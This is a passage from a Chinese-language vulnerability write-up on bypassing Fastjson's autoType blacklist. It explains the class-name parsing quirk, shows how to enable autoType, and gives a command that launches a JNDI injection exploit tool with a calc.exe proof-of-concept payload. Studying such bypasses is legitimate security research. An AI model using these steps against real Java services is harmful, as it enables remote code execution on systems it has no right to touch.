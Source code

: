 [![](assets/1706233003-31540d4ef034be3a8c4e2ca9130bfb91.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170457-a5c5daf4-ba97-1.jpeg)  
我们来仔细看下上图红框中的代码，代码的含义是：如果类名的字符串以`[`开头，则说明该类是一个数组类型，需要递归调用`loadClass`方法来加载数组元素类型对应的`Class`对象，然后使用`Array.newIntrance`方法来创建一个空数组对象，最后返回该数组对象的`Class`对象；如果类名的字符串以`L`开头并以`;`结尾，则说明该类是一个普通的`Java`类，需要把开头的`L`和结尾的`;`给去掉，然后递归调用`loadClass`。

### （2）黑白名单绕过的复现

基于以上的分析，我们可以发现，只要我们把`payload`简单改一下就可以绕过。  
我们需要先开启默认禁用的`autoType`，有以下三种方式：

```bash
使用代码进行添加：ParserConfig.getGlobalInstance().addAccept("org.example.,org.javaweb.");或者 ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
加上 JVM 启动参数：-Dfastjson.parser.autoTypeAccept=org.example.
在 fastjson.properties 中添加：fastjson.parser.autoTypeAccept=org.example.
```

我们先去`[https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0](https://github.com/welk1n/JNDI-Injection-Exploit/releases/tag/v1.0)`下载个`JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`，然后启动利用工具：

```bash
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

选择下面的`JDK 1.8`的：  
[![](assets/1706233003-562915c9a4e62f858798fded45e3542f.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240124170458-a6315950-ba97-1.jpeg)  
然后在`Main.java`中写入如下代码：
